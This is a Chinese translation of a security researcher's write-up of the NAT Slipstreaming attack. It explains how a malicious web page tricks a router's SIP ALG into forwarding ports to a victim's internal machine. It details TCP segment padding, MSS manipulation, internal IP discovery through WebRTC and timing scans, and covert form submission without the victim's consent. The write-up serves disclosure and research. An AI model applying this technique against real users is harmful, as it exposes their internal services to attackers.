这就是问题所在…虽然我们可以使用 web 浏览器来生成出站套接字(TCP via HTTP(S)，UDP via TURN w/WebRTC)，但我们对浏览器没有足够的控制来以单词“INVITE”开始 TCP 数据部分，而这正是该模块所期望的。在 [2010 IRC 版本](https://samy.pl/natpin/)中，IRC ALG 只逐行查找，忽略所有 HTTP 头数据，然后在 POST 数据中使用换行符发送有效的“IRC DCC”。然而，这个 SIP ALG 要严格得多，并且控制请求的开始是不可能的。如果使用 TLS，加密报头将启动数据包。如果使用 HTTP，HTTP 方法将开始数据包(GET、POST 等)。我们能不能用其他方法来利用这一点？

**连接跟踪/应用层网关调查**

**Linux Netfilter**

为了更好地理解连接跟踪和应用层网关，我们可以看看它们在 Linux 的网络栈 netfilter[中的表现。我基于对 Linux 源代码的解析，创建了一个最常见的 alg 及其行为的图表。](https://github.com/samyk/linux/tree/master/net/netfilter)

[](https://github.com/samyk/slipstream/blob/main/img/alg.png)

从这个图表来看，最有趣的(Chrome 没有屏蔽的)是 sane(备份)、sip (voip)、pptp (vpn)和 h323 (voip)。我们将选择 SIP，因为它是这些协议中较为普遍的一种，我们已经在一些路由器的固件中看到了它。

Linux 专门有`nf_conntrack_*.c`文件用于处理基于每个协议的连接跟踪，还有`nf_nat_*.c`用于数据包处理(修改)。

我们将快速浏览一下 [SIP 连接跟踪模块](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c)

*   [`module_init(nf_conntrack_sip_init)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1698) 初始化这个连接跟踪器，调用 [`nf_conntrack_sip_init`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1662)
*   [`nf_ct_helper_init(...AF_INET, IPPROTO_TCP, "sip", SIP_PORT...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1676) 我们期望信令从 IPv4 `AF_INET` TCP `IPPROTO_TCP`端口 5060`SIP_PORT`…这发生在 UDP、TCP、IPv4 & IPv6 上
*   [`sip_help_tcp(...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1524) 匹配 TCP SIP 数据包进来时调用
    *   [`process_sip_msg(...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1500) 如果这看起来像一个潜在的 SIP 数据包
        *   [`process_sip_request(...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1444) 这是一个请求吗
        *   [`strncasecmp(*dptr, handler->method, ...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1476-L1478) **除非方法(例如，REGISTER)出现在数据包(TCP 或 UDP)的数据部分的*开始***处，否则处理程序将退出，就像我们在上面看到的 INVITE up 一样… [REGISTER](https://tools.ietf.org/html/rfc2543#section-4.2.6) 只是另一个 SIP 命令
        *   这是一个挑战，就好像我们只使用一个 web 浏览器，我们不能产生一个原始的 TCP 连接并用我们自己的数据开始任何数据包，因为它将被 HTTP/TLS 报头填充…或者我们可以吗？
        *   [`process_register_request(...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1216)[`nf_ct_expect_init(...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1289)via[`sip_handlers`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1391)我们初始化了防火墙针孔(允许远程人员重新连接进来的端口)，但我们还没有打开它
        *   [`nf_nat_sip_hooks`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1295)->[`nf_nat_sip(...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_nat_sip.c#L144)NAT 还将客户端的内部 IP 地址篡改(重写)为 NAT 的公共 IP 地址，以便目的地可以正确到达
*   [`sip_help_tcp(...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1524)->-[-`process_sip_msg(...)`-](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1500)->
    *   [`process_sip_response(...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1400) 现在我们来看看来自 SIP 服务器的 SIP 响应
        *   [`process_register_response(...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1314) - > [`refresh_signalling_expectation(...)`](https://github.com/samyk/linux/blob/29b0b5d56589d66bd5793f1e09211ce7d7d3cd36/net/netfilter/nf_conntrack_sip.c#L1381) 只有当 SIP 服务器发送有效的 SIP 响应时，NAT 才会转发端口

**数据包边界控制**

据我们所知，我们不能让浏览器强制我们想要的任何流量的出站 TCP 连接，我们有必要创建一个以 SIP 方法(如 REGISTER 或 INVITE)开始的 TCP/UDP 包。

Flash 过去允许出站套接字，但我们无法完全控制它的格式。Java 需要权限。WebSockets 还是 HTTP。TLS 是加密的。 [WebRTC (RFC 7742)](https://tools.ietf.org/html/rfc7742) 是加密的。[STUN(RFC 3489)](https://tools.ietf.org/html/rfc3489)[TURN(RFC 5766)](https://tools.ietf.org/html/rfc5766)为固定格式， [TURNS (RFC 7065)](https://tools.ietf.org/html/rfc7065) 为加密格式。

**TCP 分段**

在高层次上，我们不能控制 TCP 包的开始，但是如果我们发送太大的包怎么办？必须有一个最大的包大小…在这一点上，一个包必须被分割成多个包。如果我们可以溢出 TCP 数据包的大小，并精确控制部分数据，我们是否可以导致数据包分段，并让我们的数据位于下一个溢出数据包的最开始？

嗯，我们需要知道浏览器将发送多少数据，这将因浏览器而异，甚至因用户而异，因为他们可能发送不同的 HTTP 头。HTTPS 无法工作，因为大部分内容都是加密的，而 HTTP POST 允许我们控制很大一部分报头。

为了获得数据包的大致大小，我们向我们的 http://our.attack.server:5060/pktsize 的 T2 发送一个带有 ID 和填充数据的大 HTTP POST(6000 字节)。在攻击服务器上，我们运行一个[数据包嗅探器](https://github.com/samyk/slipstream/blob/main/max_pkt_size.pl)，它寻找我们数据包的边界，以确定 MTU(最大传输单元)大小、IP 报头大小、潜在的 IP 选项、TCP 报头大小、潜在的 TCP 选项、数据包大小以及我们控制的数据包部分。

我们还运行了一个[定制服务器](https://github.com/samyk/slipstream/blob/main/serv-sip.pl),它监听 TCP 端口 5060，并用 HTTP 流量进行响应以安抚浏览器，这样客户端就不会有任何可疑之处(响应不正确的服务器会导致控制台出错，或者错误响应的服务器会使状态微调器继续运行)。

[](https://github.com/samyk/slipstream/blob/main/img/sniff2.png)

我们进一步尝试通过在初始 SYN 响应期间发送最大分段大小(mss) TCP 选项来控制 TCP 数据包数据大小，以操纵受害者的出站数据包大小( [RFC 793 x3.1](https://tools.ietf.org/html/rfc793#section-3.1) )。这告诉受害机器将 TCP 数据包保持在一定的大小。

[](https://github.com/samyk/slipstream/blob/main/img/sniff1.png)

在 Linux 上，您可以通过将`advmss <size>`附加到`ip route`来实现这一点。我们用 1500。

```
ip route replace default via [gateway] dev eth0 advmss 1500
```

一旦我们获得了数据包，我们就通过一个单独的 POST 将大小数据发送回受害者客户端，该 POST 发送受害者的 ID，这样我们就可以将它与来自受害者的原始请求相关联。此时，客户端很清楚如何填充数据包，以使任意数据到达 TCP 数据包中的任意特定位置。

**使用 UDP 和 TURN 进行 IP 分段**

有些 NAT 只允许在 SIP 连接最初是 UDP 的情况下访问 UDP 端口，所以在这种情况下我们使用 TURN。TURN 是一种支持点对点通信中继的协议，如 SIP 和 WebRTC。TURN 是 UDP，而 TURNS (TURN+TLS)是 TCP。现代浏览器支持 TURN for WebRTC，以防它们不能为了媒体共享而相互建立直接的对等连接。

TURN 允许通过用户名和密码进行身份验证，用户名以明文形式发送。有趣的是，用户名不受任何大小或字符的限制，因此我们可以使用它来执行相同类型的数据包溢出。

由于 TURN 通过 UDP，如果溢出超过 MTU 大小(UDP 不支持分段)，IP 数据包本身将会被分段。第二个包不仅有数据部分在我们的控制之下，还有 UDP 头！这对我们的攻击并不重要，但很有趣，肯定能产生交替攻击。最终，我们可以通过 UDP 执行相同的攻击，方法是根据计算出的 MTU 大小而不是 MSS 大小来调整我们的数据包边界，使我们的 SIP UDP 数据包位于第二个数据包边界上(前面有一个假的 UDP 报头),从而允许我们将 UDP 端口转发回我们的 vitim。

**TCP 定时攻击/内部子网& IP 发现**

哦，这个还是不行！为了让 ALG 将其视为合法的 SIP 数据包，您请求数据返回的 IP 地址(在 [`Contact`](https://tools.ietf.org/html/rfc2543#section-6.13) SIP 线路中)必须是 SIP 数据包来自的内部 IP(受害者)，我们不知道。只有路由器的公共 IP 地址被传输到我们的服务器(因为 NAT 在退出公共端时会重写源 IP)。

我们在 Linux 的`nf_conntrack_sip.c`的 [process_sip_request](https://github.com/samyk/linux/blob/ea2cec24c8d429ee6f99040e4eb6c7ad627fe777/net/netfilter/nf_conntrack_sip.c#L1260) 中看到这个检查:

[](https://github.com/samyk/slipstream/blob/main/img/nfsipreqcon.png)

在 [2010](https://samy.pl/natpin/) 中，我们使用了 [LiveConnect](https://developer.mozilla.org/en-US/docs/Archive/Web/LiveConnect) ，它允许在某些条件下从 Javascript 执行 Java 代码，提取用户的本地 IP。很快就过时了。

在某些浏览器(Chrome，Firefox)上，我们可以使用 [WebRTC](https://www.w3.org/TR/webrtc/) 通过 [ICE](https://tools.ietf.org/html/rfc5245) 抓取受害者的内部 IP 地址(其中只是使用了 STUN/TURN/TURNS)。这些是帮助 NAT 后面的对等体确定关于它们自己的信息的协议。具有讽刺意味的是，在 ICE“请求”中不需要使用服务器，因为浏览器已经知道它的内部 IP，远程 STUN/TURN 服务器无论如何也不会知道它，除非客户端首先发送它。问题是并不是所有的浏览器都提供这种机制。

截至今天，使用 WebRTC 获取 Chrome 上的本地 IP 地址，而不是一个`.local` mDNS/Bonjour 地址，需要使用 HTTPS，但 HTTP 对于其余的攻击来说是必要的，所以我们首先检测我们是否在 HTTP 上，如果不是，rdirect 到 HTTPS。然后，我们尝试使用 WebRTC 提取本地 IP 地址。无论采用哪种方式，我们都可以重定向回 HTTP，将 IP 附加到 URL 上，通过其他通信方法绕过跨源限制。

**定时攻击**

如果使用 Safari，IE <= 11，或者其他不支持 WebRTC 或者故意不泄露内部 IP (Safari)的，我们可以使用 web 定时攻击来泄露受害者的内部 IP 地址。

我们通过首先在页面上生成隐藏的 HTML ``标签来管理这个问题，所有标签都指向公共网关(192.168。*.1、10.0.0.1 和[其他](https://github.com/samyk/slipstream/blob/main/server#L159))，以及 Javascript `onsuccess`和`onerror`事件。每当一个 img 被写入页面时，一个计时器被启动，如果`onsuccess`加载，这意味着 IP 用一个 web 服务器响应，如果没有 web 服务器运行，但 IP 在网络上，它将发送一个 TCP RST(重置，意味着端口未打开)回来，触发`onerror`。如果不存在 IP，则不会发送 RST，响应将花费> 1 秒，此时我们知道该 IP 在我们的网络中不存在。

一旦我们看到其中一个事件触发，我们就知道我们所在的是一个潜在的内部子网，然后我们对子网中的每个 IP(例如 192.168.0)执行相同的攻击。[2-255])，这次执行更精确的计时，以确定哪个 IP 响应**最快**。这很可能是我们自己的(受害者)内部 IP，因为我们甚至不需要离开网络接口。即使由于某种原因我们不是第一个，我们仍然会尝试攻击网络上所有响应的 IP。

**浏览器协议混乱**

一旦客户端获得了数据包大小和内部 IP 地址，它就会构建一个特制的 web 表单，填充 POST 数据，直到我们认为数据包会变成碎片，这时就会追加包含内部 IP 地址的 SIP REGISTER。该表单是通过 Javascript 提交的，没有得到受害者的同意。🙂

[](https://github.com/samyk/slipstream/blob/main/img/pinpkt.png)

**实时浏览器数据包变更**

在我们的攻击服务器上，因为我们可以看到数据包进来，所以我们查看 SIP 数据包是否用公共 IP 地址重写。如果不是，我们(自动地)向客户端传达 SIP 包不在预期的包边界上，并且没有被重写，我们从我们的嗅探器提供新的边界位置。

只有在连续两次失败后，客户端代码才会自动将其数据包大小调整为新的大小。一些浏览器(Firefox)有时会有稍微不同的数据包大小，因为它们为表单生成多部分边界，与大多数其他浏览器不同，它不是固定长度的。我发现在大约 10 次尝试后，相同的大小将被使用，攻击将会成功。

一旦 SIP 数据包到达数据包边界，NAT 将被欺骗，认为这是合法的 SIP 注册，来自受害者机器上的 SIP 客户端。一旦我们的服务器响应一个适当的 SIP 响应(嵌套在一个适当的 HTTP 响应中，以允许浏览器检测不到任何可疑的东西)，NAT 将打开我们让受害者发送的原始数据包中的端口，路由器现在将**将攻击者选择的任何端口转发回内部受害者，所有这一切都只需浏览一个网站**。

攻击完成。攻击者现在可以连接到受害者上运行的任意 TCP/UDP 服务。

**其他发现**

这些没有在这次攻击中使用，但仍然很有趣，并可能用于其他攻击。

*   IP 分段允许完全控制 IP 数据段中的所有数据，这意味着完全控制溢出数据包中包括源/目标端口的 UDP 报头
    *   受害者 IP 堆栈重新组装，不会解析数据，但是数据包流经的 NAT 会受到影响
    *   允许绕过浏览器或系统防火墙，因为只检查原始数据包的 UDP 端口，而不是溢出的碎片数据包
*   通过发送`Expires: 0`并为其他人移除 conntrack 来 DoS SIP 客户端
*   如果一个端口已经被占用，监听的端口将递增，直到端口溢出到 0
*   STUN 没有在任何现代浏览器中实现身份验证

[**Download**](https://github.com/samyk/slipstream)